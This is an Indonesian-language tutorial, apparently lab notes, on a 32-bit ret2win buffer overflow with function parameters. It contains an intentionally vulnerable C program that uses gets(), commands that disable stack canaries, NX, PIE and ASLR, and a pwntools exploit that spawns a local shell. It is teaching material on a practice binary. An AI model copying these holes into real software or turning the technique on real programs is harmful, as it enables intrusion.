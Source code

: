 [x] NO Canary ~ -fno-stack-protector
[x] NO PIE ~ -no-pie
[x] NO NX ~ -z execstack
[x] NO ASLR ~ echo 0 > /proc/sys/kernel/randomize_va_space


tantangan kali ini meningkat menjadi 

```c
#include<stdio.h>

void hackrich(int a, int b)
{
    if(a==0x10 && b==0x15)
    {
        printf("Hacked !!!!!\n");
        system("/bin/sh");
    }
    else if(a==0x10)
    {
	    printf("your second parameter is wrong!! \n");
    }
    else
    {
	    printf("you are NOOB !!\n");
    }
}

void foo()
{
    char buffer[40];
    puts("give me your input :)\n");
    gets(buffer);
}

void main()
{
    foo();
}
```

kita tidak bisa langsung mengarahkan EIP ke hackrich saja karena param a dan b harus juga di set sesuai source code yaitu param a = 0x10 dan param b = 0x15

kita kompile dengan cara seperti ini untuk supaya tidak ada perlindungan Canary,NX,PIE

```bash
gcc -g -m32 -fno-stack-protector -z execstack -no-pie -o vuln32 vuln_program.c
```

setting disable untuk perlindungan ASLR pada sistem operasi linux

```bash
echo 0 > /proc/sys/kernel/randomize_va_space
```

jalankan program vuln32 dengan gdb kemudian lakukan checksec

```bash
$gdb -q vuln32
gdb-peda$ checksec 
CANARY    : disabled
FORTIFY   : disabled
NX        : disabled
PIE       : disabled
RELRO     : Partial
```

berikut ini stack frame untuk program 32bit untuk fungsi dengan parameter

![[stack-frame-fungsi dengan parameter.png]]

dicari lokasi fungsi hackrich

```bash
gdb-peda$ pdisass hackrich
Dump of assembler code for function hackrich:
   0x08049182 <+0>: push   ebp
   0x08049183 <+1>: mov    ebp,esp
   0x08049185 <+3>: push   ebx
```

untuk mengekploitasinya seperti berikut

```python
# padding --> 52
# hackrich --> 0x8049176

from pwn import *

p = process('./vuln32')
print(p.recv())
padding = b'A'*52
hackrich = p32(0x08049182)
ret_address = p32(0x0)
param_a = p32(0x10)
param_b = p32(0x15)
p.sendline(padding+hackrich+ret_address+param_a+param_b)
print(p.clean())
p.interactive()
```

hasilnya 

```bash
python3 exploit.py 
[+] Starting local process './vuln32': pid 16054
b'give me your input :)\n'
b'\nHacked !!!!!\n'
[*] Switching to interactive mode
$
```